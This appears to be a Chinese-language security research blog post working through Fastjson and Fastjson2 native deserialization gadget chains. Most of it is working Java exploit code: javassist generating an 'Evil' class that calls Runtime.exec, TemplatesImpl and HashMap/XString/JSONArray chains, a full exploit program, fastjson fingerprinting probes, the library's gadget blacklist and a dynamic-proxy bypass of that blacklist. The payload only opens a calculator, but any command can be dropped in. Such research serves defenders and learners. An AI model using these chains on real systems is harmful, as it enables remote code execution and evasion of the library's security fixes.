#### 前言 Fastjson2 原生反序列化

​	fastjson 最近一直在看，于是想趁着现在比较熟悉多深入学一下。	

​	看到很多文章里面都在使用 javassist ，以及每次 templatesImpl 链，我都要额外写一个 evil 类，并且在终端切换 Java 版本去编译 java 文件为 class 文件，比较麻烦。

#### 0x01 javassist 应用

javassist 是一个处理 Java 字节码的库。

javassist.CtClass 是 class 文件的一个抽象代表，一个 CtClass 对象处理一个 class 文件，ClassPool 是 CtClass 对象的一个容器，代表一个 Class 文件。

```java
ClassPool pool = ClassPool.getDefault();
pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
// 创建一个类
CtClass cc = pool.makeClass("Evil");
// 设置父类
cc.setSuperclass(pool.get(AbstractTranslet.class.getName()))
//
String Cmd = "java.lang.Runtime.getRuntime().exec(\"open -a Calculator\");";
// 讲 Cmd 插入静态代码中
cc.makeClassInitializer().insertBefore(Cmd);
// 取出字节码
byte[] evilBytes = cc.toBytecode();
```

构建一个 TemplatesImpl 对象

```java
byte[][] code = new byte[][]{evilBytes};
TemplatesImpl templates = new TemplatesImpl();
setFieldValue(templates, "_bytecodes", code);
setFieldValue(templates, "_name", "Evil");
setFieldValue(templates, "_class", null);
setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
```


#### 0x02 一些信息探测（）

探测是否为 fastjson 框架

```json
{"@type":"java.net.InetSocketAddress"{"address":,"val":"example.com"}}
{{"@type":"java.net.URL","val":"http://example.com"}:"a"}
{"ext":"aaa","name":{"$ref":"$.ext"}}
```

fastjson 与 jackson 区别,fastjson 可能更宽容一些，对于双引号单引号混用不会报错 jackson 会报错

```json
{"username": 'admin', "password": 'admin'}
```


#### 0x03 fastjson 原生反序列化

​    fastjson 原生反序列化中，通过 toString() 方法触发的后续 gadget 链子，这里可以使用 BadAttributeValueExpException 作为入口类，也可以使用 XString 的 equals() 触发 toString。

这里会调用 toString() 方法，一定会去使用 getter 方法获取值方便 toString。所以我们需要将构造好的 TemplatesImpl 放进 jsonArray 中



代码如下

```java
ClassPool pool = ClassPool.getDefault();
pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
CtClass cc = pool.makeClass("Evil");
cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
String Cmd = "java.lang.Runtime.getRuntime().exec(\"calc\");";
cc.makeClassInitializer().insertBefore(Cmd);

byte[] evilBytes = cc.toBytecode();
byte[][] code = new byte[][]{evilBytes};
TemplatesImpl templatesImpl = new TemplatesImpl();
setFieldValue(templatesImpl, "_bytecodes", code);
setFieldValue(templatesImpl, "_name", "Evil");
setFieldValue(templatesImpl, "_class", null);
setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());

JSONArray jsonArray = new JSONArray();
jsonArray.add(templatesImpl);
```

然后查看 XString 的 equals() 方法，会调用参数 obj2 的 toString 方法，也就是说，我们要让 obj2 为上述构造的 jsonArray 



往前看，查找调用 XString.equals(obj2) 的代码，跟进 HashMap 的 readObject 方法，从 putVal 方法开始，存放新的 kv 

先初始化，然后使用 (n-1) & hash 找存储桶的索引，如果该位置为空则直接放进去，否则，对当前要存放的新 kv 和已经存在该位置的旧 kv 做 hash 比对，然后在做 key 比对，并调用 new_k.equals(old_k)



所以这里，需要 new_k 为 Xstring 对象，old_k 为 jsonArray 对象，因此先在 hashMap 中放置 jsonArray 对象再放置 Xstring 对象。到这里 exp 如下

```java
HashMap hashMap = new HashMap();
setFieldValue(hashMap, "size", 2);
    Class<?> nodeClass;
    // jdk 8 以上
    try {
        nodeClass = Class.forName("java.util.HashMap$Node");
    }
    // jdk 7 以下
    catch ( ClassNotFoundException e ) {
        nodeClass = Class.forName("java.util.HashMap$Entry");
    }
    Constructor<?> nodeConstructor = nodeClass.getDeclaredConstructor(int.class, Object.class, Object.class, nodeClass);
    nodeConstructor.setAccessible(true);
    Object table_ = Array.newInstance(nodeClass, 2);
    Array.set(table_, 0, nodeConstructor.newInstance(0, jsonArray, jsonArray, null));
    Array.set(table_, 1, nodeConstructor.newInstance(0, templatesImpl, templatesImpl, null));
    setFieldValue(hashMap, "table", table_);
```

调试发现 hash != p.hash



这里如果存在 spring-aop 依赖也可以使用 hsts （HotSwappableTargetSource）类来实现 hash 相等，原因如下，返回的是 HotSwappableTargetSource.class 执行 hashcode 的结果，所以所有 hsts 对象的 hashCode 计算值都相同。



或者就是根据 HashMap.hashCode(); 对每个 kv 进行 hashCode 然后异或累加， yy zZ 的 hashCode 值相同来构造两个 HashMap 对象，放入 map 的键值对中，这样也可以。



所以到这里 exp 如下

```java
import com.alibaba.fastjson.JSONArray;
import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import org.springframework.aop.target.HotSwappableTargetSource;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xpath.internal.objects.XString;
import javassist.ClassClassPath;
import javassist.ClassPool;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.CtClass;


public class Fastjson1Exp {

    public static void main(String[] args) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("Evil");
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        String Cmd = "java.lang.Runtime.getRuntime().exec(\"calc\");";
        cc.makeClassInitializer().insertBefore(Cmd);

        byte[] evilBytes = cc.toBytecode();
        byte[][] code = new byte[][]{evilBytes};
        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl, "_bytecodes", code);
        setFieldValue(templatesImpl, "_name", "Evil");
        setFieldValue(templatesImpl, "_class", null);
        setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());

        JSONArray jsonArray = new JSONArray();
        jsonArray.add(templatesImpl);

        XString xString = new XString("wsh");

        HashMap hashMap1 = new HashMap();
        HashMap hashMap2 = new HashMap();
        hashMap1.put("yy", jsonArray);
        hashMap1.put("zZ", xString);
        hashMap2.put("yy", xString);
        hashMap2.put("zZ", jsonArray);

        HashMap<Object, Object> hashMap = new HashMap<>();
        setFieldValue(hashMap, "size", 2);
        Class<?> nodeClass;
        // jdk 8 以上
        try {
            nodeClass = Class.forName("java.util.HashMap$Node");
        }
        // jdk 7 以下
        catch ( ClassNotFoundException e ) {
            nodeClass = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeConstructor = nodeClass.getDeclaredConstructor(int.class, Object.class, Object.class, nodeClass);
        nodeConstructor.setAccessible(true);
        Object table_ = Array.newInstance(nodeClass, 2);
        Array.set(table_, 0, nodeConstructor.newInstance(0, hashMap1, hashMap1, null));
        Array.set(table_, 1, nodeConstructor.newInstance(0, hashMap2, hashMap2, null));
        setFieldValue(hashMap, "table", table_);

        String ser = serialize(hashMap);
        unserialize(ser);
    }

    public static String serialize(Object obj) throws IOException {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(obj);
        return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
    }
    public static void unserialize(String exp) throws IOException,ClassNotFoundException{
        byte[] bytes = Base64.getDecoder().decode(exp);
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }
    public static void setFieldValue(Object object, String fieldName, Object value) throws NoSuchFieldException, IllegalAccessException {
        Class<?> clazz = object.getClass();
        Field field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(object,value);
    };
}
```

通过 hash 比对，弹出计算器。



完之后就是1.2.49 以后需要配合 set map list 使用，使用引用绕过恶意类匹配。2.x 是不需要的

#### 0x04 fastjson2 原生反序列化

 2.0.26 之前的版本不受影响，以下 exp 可以正常弹出 计算器

```java

import com.alibaba.fastjson.JSONObject;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;

import java.io.IOException;
import java.lang.reflect.Field;

public class FastJsonExp {
    public static void main(String[] args) throws CannotCompileException, NotFoundException, IOException, NoSuchFieldException, IllegalAccessException {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("Evil");
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        String Cmd = "java.lang.Runtime.getRuntime().exec(\"calc\");";
        cc.makeClassInitializer().insertBefore(Cmd);

        byte[] evilBytes = cc.toBytecode();
        byte[][] code = new byte[][]{evilBytes};
        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl, "_bytecodes", code);
        setFieldValue(templatesImpl, "_name", "Evil");
        setFieldValue(templatesImpl, "_class", null);
        setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());

        JSONObject jsonObject = new JSONObject();
        jsonObject.put("wsh",templatesImpl);
        jsonObject.toString();

    }
    public static void setFieldValue(Object object, String fieldName, Object value) throws NoSuchFieldException, IllegalAccessException {
        Class<?> clazz = object.getClass();
        Field field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(object,value);
    };
}
```


自 2.0.27 开始，加了一些黑名单，之前使用的 templatesImpl 被 ban 了，再次调试走不到 templatesImpl 的 getter 方法。



```java
// BeanUtils.getDeclaredField() 

static boolean ignore(Class objectClass) {
    if (objectClass == null) {
        return true;
    }
    String name = objectClass.getName();
    switch (name) {
        case "javassist.CtNewClass":
        case "javassist.CtNewNestedClass":
        case "javassist.CtClass":
        case "javassist.CtConstructor":
        case "javassist.CtMethod":
        case "org.apache.ibatis.javassist.CtNewClass":
        case "org.apache.ibatis.javassist.CtClass":
        case "org.apache.ibatis.javassist.CtConstructor":
        case "org.apache.ibatis.javassist.CtMethod":
        case "com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet":
        case "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl":
        case "com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl":
        case "org.apache.wicket.util.io.DeferredFileOutputStream":
        case "org.apache.xalan.xsltc.trax.TemplatesImpl":
        case "org.apache.xalan.xsltc.runtime.AbstractTranslet":
        case "org.apache.xalan.xsltc.trax.TransformerFactoryImpl":
        case "org.apache.commons.collections.functors.ChainedTransformer":
            return true;
        default:
            break;
    }
    return false;
}
```



使用动态代理绕过，其中的

```java
Class<?> clazz = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
Constructor<?> cons = clazz.getDeclaredConstructor(AdvisedSupport.class);
cons.setAccessible(true);
AdvisedSupport advisedSupport = new AdvisedSupport();
advisedSupport.setTarget(templatesImpl);
InvocationHandler handler = (InvocationHandler) cons.newInstance(advisedSupport);
Object proxyObj = Proxy.newProxyInstance(clazz.getClassLoader(), new Class[]{Templates.class}, handler);
```

可以看到这里的 value 是 TemplatesImpl ，但是 Name 为 $Proxy0





绕过 ignore 方法之后看着好像应该进入该条件



但是没进去，我又打断点调试了一下，判断实现的接口是不是在这黑名单中



然后我们的 itemName 是Templates 绕过了



后面的 superClass 为 java.lang.Reflect.Proxy

